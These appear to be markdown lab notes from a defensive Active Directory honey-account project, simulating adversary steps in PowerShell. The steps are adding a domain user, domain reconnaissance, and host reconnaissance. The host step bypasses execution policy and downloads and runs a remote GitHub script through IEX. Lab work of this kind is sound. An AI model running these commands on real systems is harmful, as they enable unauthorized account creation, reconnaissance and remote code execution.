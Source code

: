 # Try Adding a Domain User
```powershell
net1 user appliedDemo apTclass! /add /domain 
```
- ![](../../__attachments/Honey%20Accounts%20in%20Windows%20AD/Project%20Workspace/IMG-20231117225446553.png)

# Domain Reconnaissance
- Recon activity is common with adversaries especially since they don't understand the environment like defenders typically do

We can utilize some native PS components to gain an understanding of the domain
```powershell
[System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()
```

![](../../__attachments/Honey%20Accounts%20in%20Windows%20AD/Project%20Workspace/IMG-20231117225817755.png)

# Host Recon
- LOL = living of the land
- We can use some LOL binaries or components of PS to also do host recon

```powershell
Set-ExecutionPolicy bypass -Force
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12 
IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/dafthack/HostRecon/master/HostRecon.ps1') 
Invoke-HostRecon 
|Out-File recon.txt 
```
